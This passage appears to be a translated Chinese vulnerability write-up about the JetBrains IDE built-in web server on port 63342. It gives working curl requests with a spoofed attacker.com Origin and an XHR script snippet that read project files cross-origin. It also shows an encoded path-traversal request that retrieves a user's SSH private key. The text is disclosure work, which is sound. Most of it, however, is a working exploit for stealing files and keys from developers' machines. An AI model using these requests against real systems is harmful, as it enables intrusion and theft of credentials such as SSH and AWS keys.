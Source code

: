 <br>

**什么是HTTP服务器？**

**<br>**

在查找网页对应的端口号之后我们发现，服务器和Webstorm在2013年初新添加的新功能有关。功能理念就是用户不需要设置自己的web服务器在浏览器中预览网页，只要在Webstorm中单击“在浏览器中查看”这个按钮就可以在http://localhost:63342/&lt;projectname&gt;/&lt;your_file.html&gt;中进行查看。其中包含的任何脚本或者页面都可以通过类似的链接（http://localhost:63342/&lt;projectname&gt;/some_script.js）呈现。

要验证 PyCharm 嵌入的服务器是否与 WebStorm 类似，让我们在 PyCharm创建一个名为"测试" 的项目，并在根目录中创建一个名为"something.txt"的文件。



```
$ curl -v -H "Origin: http://attacker.com/" "http://127.0.0.1:63342/testing/something.txt"
&gt; GET /testing/something.txt HTTP/1.1
&gt; Host: 127.0.0.1:63342
&gt; User-Agent: curl/7.43.0
&gt; Accept: */*
&gt; Origin: http://attacker.com/
&gt; 
&lt; HTTP/1.1 200 OK
[...]
&lt; access-control-allow-origin: http://attacker.com/
[...]
these are the file contents!
```

所以我们发现，所有的站点只要能猜到项目名称和文件名，就可以读取任何项目文件。很显然这其中将包括任何配置文件包，其中会含有AWS密钥等敏感信息。这里就是一个HTML片段：



```
&lt;script&gt;
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://localhost:63342/testing/something.txt", true);
xhr.onload = function() `{`alert(xhr.responseText)`}`;
xhr.send();
&lt;/script&gt;
```



**武器化——从项目目录中逃逸**

我们先看一下是否可以读取项目目录以外的文件，比如说SSH密钥。最明显的就是看一下它是如何处理URI请求的：



```
$ curl -v "http://localhost:63342/testing/../../../.ssh/id_rsa"
* Rebuilt URL to: http://localhost:63342/.ssh/id_rsa
```

[](http://localhost:63342/.ssh/id_rsa)

可以看出每段路径都必须由客户端或是服务器进行规范化处理。幸运的是，PyCharm 的内部 HTTP 服务器使用的是%2F..%2F这样的点段。



```
$ curl -v "http://localhost:63342/testing/..%2f..%2f.ssh/id_rsa"
&gt; GET /testing/..%2f..%2f.ssh/id_rsa HTTP/1.1
[...]
&gt; 
&lt; HTTP/1.1 200 OK
&lt; content-type: application/octet-stream
&lt; server: PyCharm 5.0.4
[...]
&lt; 
ssh-rsa AAAAB3NzaC[...]
```
